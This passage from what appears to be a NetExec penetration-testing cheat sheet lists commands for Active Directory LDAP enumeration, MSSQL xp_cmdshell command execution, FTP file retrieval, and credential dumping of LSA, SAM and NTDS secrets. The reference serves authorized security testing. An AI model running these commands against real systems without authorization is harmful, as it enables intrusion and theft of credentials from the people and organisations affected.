 ```
netexec ldap target -u username -p password --bloodhound --dns-server ip --dns-tcp -c all
```
#### **LDAP signing**
Checks whether LDAP signing and binding are required and/or enforced
```
netexec ldap target -u username -p password -M ldap-checker
```
#### **ADCS Enumeration**
```
netexec ldap target -u username -p password -M adcs
```
#### **MachineAccountQuota**
```
netexec ldap target -u username -p password -M maq
```
#### **Pre-Created Computer Accounts**
```
netexec ldap target -u username -p password -M pre2k
```
#### **Find Misconfigured Delegation**
```
nxc ldap target -u username -p password --find-delegation
```
### **MSSQL**  
#### **Authentication**  
```
netexec mssql target -u username -p password
```
#### **Executing Commands via xp_cmdshell**  
```
netexec mssql target -u username -p password -x command_to_execute
```
#### **Extracting Files**  
```
netexec mssql target -u username -p password --get-file output_file target_file
```
### **FTP**  
#### **List Files & Directories**  
```
netexec ftp target -u username -p password --ls
netexec ftp target -u username -p password --ls folder_name
```
#### **Retrieve a File**  
```
netexec ftp target -u username -p password --ls folder_name --get file_name
```
## **Credential Dumping**  
### **Secrets Dump**  
```
netexec smb target -u username -p password --lsa
netexec smb target -u username -p password --sam
```
### **NTDS**  
```
netexec smb target -u username -p password --ntds
netexec smb target -u username -p password -M ntdsutil
```
### **DPAPI**
```
```
